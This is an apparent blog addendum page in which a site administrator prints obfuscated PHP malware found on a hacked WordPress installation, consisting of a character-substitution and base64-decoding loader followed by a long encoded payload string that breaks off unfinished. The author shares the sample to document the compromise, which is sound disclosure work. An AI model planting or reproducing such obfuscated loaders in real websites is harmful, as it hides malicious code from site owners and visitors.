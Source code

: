 +++
date = "2015-06-27T18:13:06+02:00"
title = "Obfuscated code from the WordPress hack"
+++

This page is part of the blogpost [About that time I dealt with a bunch of hackers on a WordPress](/2015/about-that-time-i-dealt-with-a-bunch-of-hackers-on-a-wordpress/).

The following is an example of the code I found when one of the WordPress installations I managed was hacked. You can find the [deobfuscated version right over here](/addendum/2015/deobfuscated-code-from-the-wordpress-hack/).

	<?php
	function yxsp($bzgsgbglpr, $fhuazfo){$r = ''; for($i=0; $i < strlen($bzgsgbglpr); $i++){$r .= isset($fhuazfo[$bzgsgbglpr[$i]]) ? $fhuazfo[$bzgsgbglpr[$i]] : $bzgsgbglpr[$i];}
	$indkcf="base64_decode";return $indkcf($r);}
	$cwhs = '5t3D5BFTVBeDhn9yJQhtJQ6sMesZvKffBRFnSPVnSPpqSL8eBRFny'.
	'L3qBkw96v616ApKvKffBRFnSPVnSPpqSfQFyRJnBgnLJn6qBkw96v60OAxjO'.
	'v7zlALXHzDh5t3D6tQoxWJNMvJuSgQkQfQktIc6QnJeBR8uJf9kQgnkJLQLBgViSXccMkfMvBpMvef'.
	'fBRFnSPVnSPpqknJSSn93BgViSPcESfJnJn9byR6qBkw96v60OAxjOv7zlALXHzDhues9vKs'.
	'sVX8sxGFPcvKfBgVhyLQyMkfMazDhV49IVtnA5vKfBgVhyLQy6bnT6vJUVBfKiy7KhbVsrbSsvKPZvKfh5t3D6BFgxqE1xIK'.
	'fV4PpVQpqr4noVkcclvwXl4szVI6sMeDhvBpMvefhhbVsrbQj3tRP6CgK3t0gVBhurtnAx49TMvJ45t0PtIcj3tRPhR'.
	'gsHzDhveffV4PpVtN8rtSKikEjctRurtnAx49TMvJ45t0Pr4noVkfZvKfhvkJ45t0Pr4noVkw96W8jctRurtnAx49TMvJ45'.
	't0Pr4noVkfZvKfhvkJuJfPOJQFrhboPaQRr64N8rtSXBkw96vJ45t0Pr'.
	'4noVypMveP9vKP9vqgMves4ctNAcbP1rXEAcBFgrmRuxGJI5BEucbnqxI'.
	'KfcbQ7cvfMazDK6vwKhWJPaWeKikETcWhsxn9g3tcTMvJgVB8glvwqibL+h'.
	'IfZvKDK6vwKhWJPaWeKikETcWhux4QzrbnAVkKXibLK5WhPVARx6X6p6'.
	'vhr6v6p6vJgVB8gMypM6vwK6vJgVB8g6CgKxGJIBGhPxb083mSD6Az13y7X'.
	'lvwX6XzKhWJPaWesHzDK6vwKhWJPaWeKikETcWhux4QzrbnAVkKXBv6+6XzK6XEc6v'.
	'6p6vJgVB8gMypMvXwK6vEIVBJRx47KhWJPaWeZvqgMv4VRr4Fg5t'.
	'9j6bPTBmPzMvJTcW6s6WpM6vEIVBJRx47KxWhPVR9o3BJA5vKXlR7DtTLoHQR2tTLoHQRrOvgNBBz0tTwo'.
	'HQRrOvgNBBzItTwoFnRrOvgNBBzIFQpzlyQcMk8xlX8rOvgNBB0rOkgNBQpzlyPcuCnrOv'.
	'gNBQpzlyPcuChrOvggBQpzlyPcuC6RtTwoFQgsMBpTuke16XzfxGJIMypMueDMVqQj3GJsrm'.
	'7KVqh1rQ9DrGFgMvJArmNgVtNgMesZvKDK6vwKhb81xGeKikEzx4QqBGh'.
	'Pxb083mSDhI9aMWcGcG04cWwsBv715kxphIxpevJuSgQkQfQktIc6QnJeBg8iSReqBkfZvKDK6vwK5t3KMbPTBmPzMvJDr'.
	'GFgMkfM6vwK6WpM6vwK6vwK6vEIVBJRx47KhbF1rqJPrqeZvXwK6vE9vXwK'.
	'6vwM6vwK6vJgrmoPrqOKikEPaWEprmJPMvhw6XzKhbF1rqJPrqesHzDM6vwK6vJArmNgVtNg6CgKhWJ15mQjxRpzBkwj6vh'.
	'w6Xwj6vJDrGFg6v7K6A7XHzDM6vwK6WhPcWQIrXwf3m9jcbQjcCpMueDMVqQj3GJsrm7K3t0gVBhurtnAx49TMvJ'.
	'ArmNgVtNgMesZvXwK6vEzx4QqBmR8cbFDBmnprvKq6GpDlXDsukFQ5kxp6vJArmNgVtNglvwfrtng3m8P'.
	'xIfZvKDK6vwKV49IMvJs6CgKOCpKhbfKivEArGQjcvKfrtng3m8PxRp0B'.
	'kfZ6vJsMIpsvXwK6vEZvKDK6vwK6vwK6vJjxIw96bQ7xb01VbSD6qzXlvwfrtng3m8PxRp0BQpf5QgsHzDK6vwK6vwK'.
	'6vJAOXw96bF1ctNgMvJjxIfZvXwK6vwK6vwKhWh8r4eKikEI3tNfMCwp6vKf3T6Klkw0MkfZvXwK6vwK6vwKhbF1rqJPr'.
	'qeKikETcWhux4QzrbnAVkKXaI6jhbR8cbFDVBFrOQRrhbPclXh96XzKhbNTtIJI3tNfBkzKhbF1rqJPrqesHzDK'.
	'6vwKueDK6vwKx4QgcBhj6vJArmNgVtNgHzs9vKDMVqQj3GJsrm7KabNRrQ9o3tFIrGODhbF1rqJPrqesvqpM6'.
	'vwK6WEIVtcurtng3m8u3t0pMvxABnoHQSRxlk8rtTsf5tcscCscBkpsBngAhIzKhbF1rqJPrqep6vJo3BJA5bQTMypMvXwK6v'.
	'E4rG6DhbfKikwzHIwf5kw26bF1ctNgMvJo3BJA5bQTtTEcMypKhbfUMIfM6vwK6WpM6vwK6vw'.
	'K6vwfrqQo6CgKhbR8cbFDVBFrOQRrhbPcHzDK6vwK6vwK6vJo5t7KikEzrGxDOywp6vJjctgKlkw0MypM6vwK6vwK6vw'.
	'frtn76CgKxb9GMCLzlvwfrqQoMkwo6CLZvKDK6vwK6vwK6vJI3tNf6CgKx4njVvKfrtPjl'.
	'vwfrtn7MypM6vwK6vwK6vwf3m9jcbQjcvw96WFgxP9IVBEp3tFPMvJo3'.
	'BJA5bQTtTEctIJsBkzKhWh8r4ep6vJArmNgVtNgMypM6vwK6WgM6vwK6WhPcWQIrXwf3m9jcbQjc'.
	'CpMueDMVqQj3GJsrm7KrqQoBmR83Gh1xIKf3m9jcbQjcvfMazDK6vwK'.
	'xWhPVR9o3BJA5n98rbzDhIFxtRhEyfJxlk8rtTsf5tcscCscBkp'.
	'sBvgDtRpdVbPq5BedBQgUMQ0c6Ixp6vJArmNgVtNglvwfrtng3m8PxI'.
	'fZvKDK6vwKV49IMvJs6CgKOCpKhbfKivEArGQjcvKfrtng3m8PxRpzBkfZ6vJsMIpsvXwK6vEZvXwK6vw'.
	'K6vwKhbRsrXw96vJo3BJA5bQTtTnctIJsBypM6vwK6vwK6vwfrtn76CgKhbR8cbFDVBFrOPRrhbPcHzDK6vw'.
	'K6vwK6vJI3tNf6CgKx4njVvKfrtPjlvwfrtn7MypM6vwK6vwK6vwf3'.
	'm9jcbQjcvw96WFgxP9IVBEp3tFPMvJo3BJA5bQTtTEctIJsBkzKhWh'.
	'8r4ep6vJArmNgVtNgMypM6vwK6WgM6vwK6WhPcWQIrXwf3m9jcbQjcCpMueDMv4VRr4Fg5t9'.
	'j6bVgVtPpBmR83Gh1xIKf3m9jcbQjcvzKhbVgVtPpMesZ6vwK6wDK'.
	'6vwKx4QgcBhj6WFgxP9IVBEp3tFPMvhrJPJnkS0c6XzKhbVgVtPplvwf3m9jcbQjcvfZvqgMv4'.
	'Fp3BFT6nE6SLR85t0PxKsZvXwK6vEzcthp5tOKhnVPxqFsrm7KikwqF'.
	'k7IlAfqHzDM6vwK6WER340s3IwfSWhsrGhscWfKikwTHzDM6vwK6WER340s3Iwfem88xPFPcvw96vcsxm2oHCKRHkg0'.
	'hTpMvXwK6vEzcthp5tOKhLF1rqJPrqJSaBEP6CgKhGJPaWe1xb08'.
	'5t7qHzDM6vwK6WER340s3IwfJtNArmJsr4xKikwqHbhscvxZvKDK6vwKxWQXrbPA6vJnxqh1xfPjV42KikwqhTpMvXwK'.